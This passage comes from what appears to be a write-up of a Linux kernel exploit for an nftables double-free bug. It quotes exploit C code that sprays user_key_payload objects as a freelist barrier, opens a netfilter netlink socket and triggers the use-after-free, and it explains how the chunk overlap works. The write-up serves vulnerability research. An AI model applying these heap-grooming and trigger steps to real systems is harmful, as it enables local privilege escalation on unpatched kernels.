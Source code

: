 
- [exploit/extra-refined/exploit.c#L1067](../exploit/extra-refined/exploit.c#L1067)
```c
// init user_keys for freelist barrier
for (int i = 0; i < KEY_SPRAY_CNT; i++)
{
	snprintf(name_buf, sizeof(name_buf), "key_%d", i);
	if ((keys[i] = add_key("user", name_buf, buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
		perror("add_key");
}
``` 

The exploit also sprays a `struct user_key_payload` object `KEY_SPRAY_CNT` (10) times with the `add_key` syscall. These objects are used as freelist barrier, which prevents kernel crashes after percpu freelist is corrupted.

### 7.3 Triggering vulnerability and chunk overlapping

In this step, the exploit triggers the vulnerability to create double-freed chunks into `kmalloc-1k` slab and reclaims them with `struct user_key_payload` objects for further exploit steps.

- [exploit/extra-refined/exploit.c#L1075](../exploit/extra-refined/exploit.c#L1075)
```c
nl = mnl_socket_open(NETLINK_NETFILTER);
if (nl == NULL)
{
	err(1, "Cannot into mnl_socket_open()");
}

if (mnl_socket_bind(nl, 0, MNL_SOCKET_AUTOPID) < 0)
{
	err(1, "Cannot into mnl_socket_bind()");
}

// setup table and chains
printf("[*] prepare table and chain...\n");
prepare_nftables(nl);

printf("[*] now trigger UAF...\n");
trigger_uaf(nl, NOCG_TARGET_SET_SIZE);
```
Triggering the vulnerability to achieve double free is almost the same as with `lts-6.1.31` exploit except that the size of the double-freed chunk is set to 1k (1024).

- [include/keys/user-type.h:user_key_payload](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/include/keys/user-type.h?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n27)
```c
struct user_key_payload {
	struct rcu_head	rcu;		/* RCU destructor */
	unsigned short	datalen;	/* length of this data */
	char		data[] __aligned(__alignof__(u64)); /* actual data */
};
```
However, unlike the `lts-6.1.31` exploit, the `struct msg_msg` objects are no longer utilizable because they would be allocated from `kmalloc-cg` slabs. Thus, the exploit employs `struct user_key_payload` object, which gives the capability to control chunks except for the first 0x18 (24) bytes.
